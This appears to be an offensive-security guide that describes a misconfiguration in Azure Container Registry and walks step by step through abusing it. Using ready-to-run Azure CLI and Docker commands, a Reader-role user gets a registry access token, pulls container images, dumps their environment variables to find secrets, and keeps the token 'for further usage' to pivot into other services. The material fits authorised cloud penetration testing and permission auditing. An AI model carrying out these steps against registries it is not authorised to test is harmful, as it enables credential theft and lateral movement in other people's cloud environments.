 # Hunting credentials in Azure Container Registry

### For many Azure services, Microsoft usually keeps a separation between management plane access and data plane access. This means that explicit permissions beyond the typical management roles are needed to access data stored within services. This architecture was not implemented for the ACR service. It is an interesting architecture choice, but Azure users with Reader permissions on any Azure container registries have rights to connect to the container registry and access images. These users do not have any rights to push modified images back to the registry, but they are able to download and run container images locally. This allows us, as attackers, to review the contents of the images and potentially find issues in the application code, access secrets used by the application, and pivot with those secrets into other applications and services. 

### The process to do this is very simple. As an authenticated user, with Reader or higher permissions on the registry, we can generate a Docker login from the Azure CLI.

## Steps

#### 1) Authenticate to the Azure environment using the reader role

    az login -u READER_USER@DOMAIN.LOCAL -p PASSWORD 

#### 2) List the container registries in the subscription

    az acr list -o table 

### Generate a Docker login for the registry

#### 3) Store the container registry in a variable

    acr=ACR_NAME 

    loginserver=$(az acr login -n $acr --expose-token --query loginServer -o tsv)

    accesstoken=$(az acr login -n $acr --expose-token --query accessToken -o tsv)

    docker login $loginserver -u 00000000-0000-0000-0000-000000000000 -p $accesstoken

#### 4) List the images in the container registry

    az acr repository list -n $acr 

#### 5) List the tags for a specific container registry to enumerate image versions

    az acr repository show-tags -n $acr --repository REPOSITORY

#### 6) Pull the image from the container registry
 
    docker pull $loginserver/REPOSITORY:v1

#### 7) Check the downloaded image for sensitive credentials by listing our environment variables

    docker container run --rm $loginserver/REPOSITORY:v1 env

### Make note of the registry credentials for further usage

    echo $loginserver

    echo $accesstoken
   

